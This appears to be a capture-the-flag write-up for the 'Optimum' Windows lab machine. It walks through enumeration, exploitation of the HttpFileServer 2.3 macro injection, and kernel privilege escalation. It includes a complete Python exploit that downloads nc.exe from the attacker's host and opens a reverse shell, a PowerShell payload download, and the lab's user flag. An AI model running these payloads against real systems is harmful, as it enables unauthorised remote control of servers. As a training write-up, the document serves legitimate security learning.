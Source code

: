 ![](pics/logo.png)

# Optimum (Windows)

## Enumeration

```
rustscan --ulimit 5000 10.129.1.127 -- -sC -sV -o port_scan

PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack HttpFileServer httpd 2.3
|_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Looking at the open port 80 via the Browser, we see following page:

![](pics/website.png)

The server is hosting a HTTPFileServer version 2.3. Doing some research shows, that this specific version has some kind of Remote Code Injection vulnerability.

## Exploitation

The version of the File server uses a library `ParserLib.pas`, which contains a vulnerable function `findMacroMarker`

```
function findMacroMarker(s:string; ofs:integer=1):integer;
begin result:=reMatch(s, '\{[.:]|[.:]\}|\|', 'm!', ofs) end;
```

This does not handle null bytes! So we can simply request 

```
http://localhost:80/?search=%00{.exec|cmd.}
```

This will stop the regex from parsing the macro and instead execute the macro.


To abuse the vulnerability, I used this script here (might have to execute it several times). You also need to start a http server, from which the script then can download the `nc.exe`, in order to create a reverse shell to your machine.

```python
import urllib2
import sys

try:
        def script_create():
                urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+save+".}")

        def execute_script():
                urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe+".}")

        def nc_run():
                urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe1+".}")

        ip_addr = "10.10.14.26" #local IP address
        local_port = "4444" # Local Port number
        vbs = "C:\Users\Public\script.vbs|dim%20xHttp%3A%20Set%20xHttp%20%3D%20createobject(%22Microsoft.XMLHTTP%22)%0D%0Adim%20bStrm%3A%20Set%20bStrm%20%3D%20createobject(%22Adodb.Stream%22)%0D%0AxHttp.Open%20%22GET%22%2C%20%22http%3A%2F%2F"+ip_addr+"%2Fnc.exe%22%2C%20False%0D%0AxHttp.Send%0D%0A%0D%0Awith%20bStrm%0D%0A%20%20%20%20.type%20%3D%201%20%27%2F%2Fbinary%0D%0A%20%20%20%20.open%0D%0A%20%20%20%20.write%20xHttp.responseBody%0D%0A%20%20%20%20.savetofile%20%22C%3A%5CUsers%5CPublic%5Cnc.exe%22%2C%202%20%27%2F%2Foverwrite%0D%0Aend%20with"
        save= "save|" + vbs
        vbs2 = "cscript.exe%20C%3A%5CUsers%5CPublic%5Cscript.vbs"
        exe= "exec|"+vbs2
        vbs3 = "C%3A%5CUsers%5CPublic%5Cnc.exe%20-e%20cmd.exe%20"+ip_addr+"%20"+local_port
        exe1= "exec|"+vbs3
        script_create()
        execute_script()
        nc_run()
except:
        print """[.]Something went wrong..!
        Usage is :[.] python exploit.py <Target IP address>  <Target Port Number>
        Don't forgot to change the Local IP address and Port number on the script"""

```

If everything is setup correctly, we can run the script and receive a reverse shell:

```
C:\Users\kostas\Desktop>whoami
whoami
optimum\kostas
```


## Privilege Escalation

Now that we have access to the server, we can look for a way to escalate our privileges. Therefore, we copy the `systeminfo` output to our local machine and use `Windows-Exploit-Suggester` (https://github.com/AonCyberLabs/Windows-Exploit-Suggester) to identify a possible vulnerability.

Going through the list, I stumbled upon this vulnerability: https://www.exploit-db.com/exploits/41020 ([Details](https://sensepost.com/blog/2017/exploiting-ms16-098-rgnobj-integer-overflow-on-windows-8.1-x64-bit-by-abusing-gdi-objects/), [Binary](https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41020.exe)).

As wget and curl are both not available for our current user, we have to use Powershell.

```
PowerShell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.26/41020.exe', 'c:\Users\Public\Downloads\41020.exe')"
```

Afterwards, we can use the exploit to obtain system privileges.

```
C:\Users\Public\Downloads>41020.exe
41020.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\Public\Downloads>whoami
whoami
nt authority\system
```

## Post-Exploitation

User Flag
```
type user.txt.txt
d0c39409d7b994a9a1389ebf38ef5f73
```
